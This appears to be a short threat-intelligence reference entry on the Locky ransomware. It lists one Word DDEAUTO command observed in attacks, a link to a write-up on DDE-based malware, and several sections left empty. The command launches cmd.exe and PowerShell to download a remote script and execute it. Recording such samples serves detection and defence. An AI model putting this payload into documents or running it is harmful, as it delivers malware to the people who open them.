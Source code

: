 ## Locky


#### Commands
---

* Winword.exe

1.
```
{ddeauto c:\\windows\\system32\\cmd.exe "/k powershell IEX(New-Object Net.WebClient).Downloadstring('[URL]' )" \* MERGEFORmAT}
```

#### Regular Expressions
---

``
``

#### Resources
---

Technical write-ups:
* https://www.zscaler.com/blogs/research/microsoft-dde-protocol-based-malware-attacks

Sandbox reports:
* 

Notes:



 
